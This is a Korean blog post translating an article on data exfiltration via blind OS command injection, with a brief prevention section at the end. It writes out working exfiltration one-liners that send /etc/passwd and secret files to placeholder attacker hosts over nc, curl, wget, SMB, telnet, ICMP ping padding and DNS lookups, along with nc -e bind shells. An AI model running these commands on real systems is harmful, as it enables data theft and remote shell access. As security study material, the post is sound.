```yaml
---
layout: post
title:  "Blind OS Command Injection"
tag:   Survey
categories: IoT system persu
---
```



### 본 문서는 아래 URL을 알기 쉽게 번역한 내용이므로, 상세 내용은 아래 URL을 참조하세요.

번역 : https://www.contextis.com/resources/blog/data-exfiltration-blind-os-command-injection/

### 제목 : Blind OS Command Injection을 통한 데이터 추출

### blind OS Command Injection
사용자의 입력이 시스템 명령에 사용될 수 있는 공격인 OS Command Injection의 한 종류로 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다.

기본적인 OS Command Injection을 이해 하기 위해서는 아래 URL 참조.
- https://www.owasp.org/index.php/Command_Injection

<img src="{{ site.url }}/images/2017-03-12/one.png" style="display: block; margin: auto;">

위 그림에서 type이후 시스템 명령 삽입이 가능하다. 하지만 성공 여부는 HTTP Response 메세지 내 노출되지 않게 된다.
이럴 경우 다른 방식으로 공격자에게 응답을 오도록 한다.

그 예로 ping을 이용한 방법이다.
- ping -c 5 xxx.xxx.xxx.xxx : 대상 IP에 icmp 메세지를 5번 요청하는 명령어

<img src="{{ site.url }}/images/2017-03-12/two.png" style="display: block; margin: auto;">

위 그림은 다중 명령어를 사용할 수 있는 방법이다.
상세 내용은 아래 URL을 참고하면 좋다... 개인적으로 이해하기 쉬운 글이었다.

- https://bpsecblog.wordpress.com/2016/10/05/command_injection_02/

지금부터는 다양한 명령어를 통해 Blind OS Command Injection에 대해 알아 보겠다.

1. NetCat (NC)

NC는 TCP, UDP을 통해 네트워크 연결을 가능하게 하며, 데이터를 읽고 쓰기가 가능한 명령어다.

- 사용법 : https://en.wikipedia.org/wiki/Netcat
-  nc –l –p {port} < {file/to/extract}

<img src="{{ site.url }}/images/2017-03-12/thr.png" style="display: block; margin: auto;">

 위 그림 처럼 nc를 이용하여 포트를 열게 되면, netstat -an 명령 시 5555번 포트가 열려 있는 것을 알 수 있다.

```
persu$ nc -l -p 5555 < /etc/passwd&
persu$ netstat -an |grep 5555
tcp4       0      0  *.5555                 *.*                    LISTEN
```
5555번 포트 접근 시 실제 /etc/passwd 내용을 확인 할 수 있다.

```
persu$ nc 127.0.0.1 5555
##
# User Database
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
```

이렇듯 NC를 통해 특정한 파일을 읽을 수 있으며, 리버스 쉘을 통해 쉘에 접근 할 수 있다.

2. cURL

cURL은 다양한 프로토콜을 사용하여 데이터를 전송하는 라이브러리 및 명령 줄 도구이며 데이터 추출을위한 매우 유용한 도구다. 취약한 서버에 cURL이 있으면 악의적인 웹 서버에 파일을 POST하거나 FTP / SCP / TFTP / TELNET 등의 프로토콜을 사용하여 파일을 전송할 수 있다.

- 사용법 : https://en.wikipedia.org/wiki/CURL
-  cat /path/to/file | curl –F “:data=@-“ http://xxx.xxx.xxx.xxxx:xxxx/test.txt

<img src="{{ site.url }}/images/2017-03-12/four.png" style="display: block; margin: auto;">

위 그림에서 사용한 명령어는 cat을 통해 /etc/passwd를 http://xxxxx/text.txt 의 데이터로 사용하게 된다.

또 다른 방법으로는 FTP 프로토콜을 사용하는 방법이다.
- curl –T {path to file} ftp://xxx.xxx.xxx.xxx –user {username}:{password}

<img src="{{ site.url }}/images/2017-03-12/five.png" style="display: block; margin: auto;">

위 명령은 -T 옵션을 이용하여, 공격자의 ftp 서버에 접근하여 file을 전송하는 명령이다.

솔직히 cURL은 평소에 잘 사용하지 않는 명령어라 옵션에 대한 정리 및 이해가 필요하다...

3. WGET

Wget은 웹에서 파일을 비 대화식으로 다운로드 할 때 일반적으로 사용되는 도구. 특히 사용자 정의 헤더 및 POST 요청을 할 수 있다.

- 사용법 : https://en.wikipedia.org/wiki/Wget
- wget –header=”EVIL:$(cat /data/secret/password.txt)”http://xxx.xxx.xxx:xxx
- –header=’name:value’ : HTTP Request 메세지 전송 시 특정 헤더에 value 추가하는 옵션

<img src="{{ site.url }}/images/2017-03-12/six.png" style="display: block; margin: auto;">

위 그림처럼 명령어 전송 시 서버측 로그를 보게 되면, header에 시스템 파일이 노출되는 것을 알 수 있다.

추가적으로 사용할 수 있는 명령어는 아래와 같다.

- wget –header=”evil:\`cat /etc/passwd | xargs echo –n`” http://xxx.xxx.xxx:xxxx

<img src="{{ site.url }}/images/2017-03-12/seven.png" style="display: block; margin: auto;">

- wget –post-data exfil=\`cat /data/secret/secretcode.txt` http://xxx.xxx.xxx.xxx:xxxx

<img src="{{ site.url }}/images/2017-03-12/eight.png" style="display: block; margin: auto;">

- wget –post-file trophy.php http://xxx.xxx.xxx.xxx:xxxx

특정 파일을 post body 영역에 전송하는 명령어

<img src="{{ site.url }}/images/2017-03-12/nine.png" style="display: block; margin: auto;">

4. SMB

Windows 운영체제를 사용하는 PC에서 Linux 또는 UNIX 서버에 접속하여 파일이나 프린터를 공유하여 사용할 수 있도록 해 주는 소프트웨어이다.

- 사용법 : https://ko.wikipedia.org/wiki/%EC%82%BC%EB%B0%94_
- net use h: \\xxx.xxx.xxx.xxx\web /user:{username} {password} && copy {File to Copy} h:\{filename}.txt

<img src="{{ site.url }}/images/2017-03-12/ten.png" style="display: block; margin: auto;">

잘 사용하지 않지만, 특정 명령어를 사용할 수 없고 SMB 프로토콜이 활성화 되어 있는 경우 유용하게 쓰일 수 있다.

5. TELNET

TELNET 프로토콜은 원격에서 쉘에 접근할 수 있는 서비스를 제공한다. 23번 Default Port를 사용하고 있으며, 평문 전송을 통해 데이터를 전달 하게 된다. (대부분 한번 쯤 써본 서비스...)

- 사용법 : https://en.wikipedia.org/wiki/Telnet
-  telnet xxx.xxx.xxx.xxx {port} < {file to transfer}

<img src="{{ site.url }}/images/2017-03-12/eleven.png" style="display: block; margin: auto;">

공격자가 NC 를 이용해 특정 포트를 오픈하고 있을 시 위 명령어를 통해 Telnet 서비스에 연결하게 되지만 실제로는 지정한 파일이 입력되어 공격자 PC에는 지정한 파일의 정보가 노출되는 것을 알 수 있다.

6. ICMP

ICMP 프로토콜은 목적지 IP에 대해 상태를 점검 하거나, management하기 위해 사용되는 서비스다. 보통 우리가 자주 쓰는 ping 명령어 또한 ICMP 메세지를 통해 전송되는 것이며, 위 내용과는 조금 다른 방식으로 사용된다.

- Cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done

<img src="{{ site.url }}/images/2017-03-12/13.png" style="display: block; margin: auto;">

<img src="{{ site.url }}/images/2017-03-12/14.png" style="display: block; margin: auto;">

이 방식은 ICMP 프로토콜의 특징을 이용한 방법인데, 보통 IP 패킷을 보내기 위해서는 최소 바이트를 작성을 하여 전송해야 한다. ICMP 는 프로토콜 헤더에서 대부분의 서비스를 정의하고 실제로 보내지게 되는 Data에는 OS에서 지정한 잡다한 데이터가 입력되는데 이 부분에 공격자가 지정한 파일의 값을 입력하게 된다. (아주 쌈박함)

그 옵션이 바로 -p 옵션이며, 최대 16 개의 "패드"바이트를 지정할 수 있다. 여기서 공격자가 추출하고자하는 데이터를 저장하는 것이다.

7. DNS

DNS 프로토콜은 Domain name에 해당하는 IP 주소를 DNS 서버에 요청하여, 목적지 URL의 IP를 알아 오는 역할이다.

- cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done

<img src="{{ site.url }}/images/2017-03-12/15.png" style="display: block; margin: auto;">

DNS 프로토콜은 해당 URL의 IP를 서버에 요청시 쿼리를 날리게 되는데 위 그림에서 사용한 방식은 요청할 URL에 파일의 값으로 사용한다는 내용이다. 충분히 가능한 얘기이며, 이 또한 프로토콜의 특성을 이용하는 방법이다.

8. 추가 내용

- nc -l -p 9090 -e cmd.exe (Windows)
- nc -l -p 9090 -e /bin/bash (*nix)

위 방식을 사용하게 되면, 해당 포트에 접근하여도 -e 옵션을 이용해 바로 쉘을 사용할 수 있게 된다.

```
Victim :  persu$ nc -l -p 9090 -e /bin/bash
Attacke : persu$ nc 127.0.0.1 9090
id
uid=501(persu)
```

### Blind OS Command Injection Prevention

OS Command Injection 공격은 IoT 디바이스에서 많이 발견되는 취약점이다. 이를 방어 하기 위한 방법은 아래와 같다.

- 시스템 명령어 사용 시 상수 값을 통한 입력값 제한
- 사용자 입력 값에 대한 화이트 리스트 기반의 특수문자 필터링 적용
- 외부로 패킷 전달이 가능한 시스템 명령어 제한(KISA 권고 사항)
- 낮은 권한의 웹 서비스 데몬 실행
- 웹 서비스에 대한 정기적인 로그 검토

어찌 됐건.... 공격자에 입장에 있는 나는 유용한 자료였으며, 이 자료를 참고하여 버그 바운티를 하겠댱 빠염!
